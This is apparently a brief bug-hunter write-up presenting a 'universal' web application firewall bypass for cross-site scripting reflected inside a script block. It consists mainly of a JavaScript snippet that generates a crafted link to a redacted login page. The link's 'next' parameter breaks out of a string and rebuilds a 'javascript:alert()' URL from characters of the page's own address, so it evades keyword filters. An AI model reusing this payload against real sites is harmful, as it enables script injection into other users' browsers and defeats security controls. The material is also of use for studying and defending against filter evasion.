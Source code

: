 ## Universal WAF BYPASS for DOM XSS
I think such bypass should work on lot's of firewalls, here's the logical bypass I use :DD

For example if reflection is inside `<script>..."REFLECTION"...</script>```

You can use this script below, after modifying it, to get the crafted with payload link.

```
console.log(`view-source:https://REDACTEDHOSTNAME/login/?abcdefghijklmopqrstuvwxyz=0&next=mySafeStr"-(()=>{`+encodeURIComponent(`let k=location.href;location=k[40]+k[31]+'Vas'+k[33]+'rip'+k[49]+k[5]+k[31]+'l'+k[35]+'rt%28%29'`)
+`})()-"` )
```
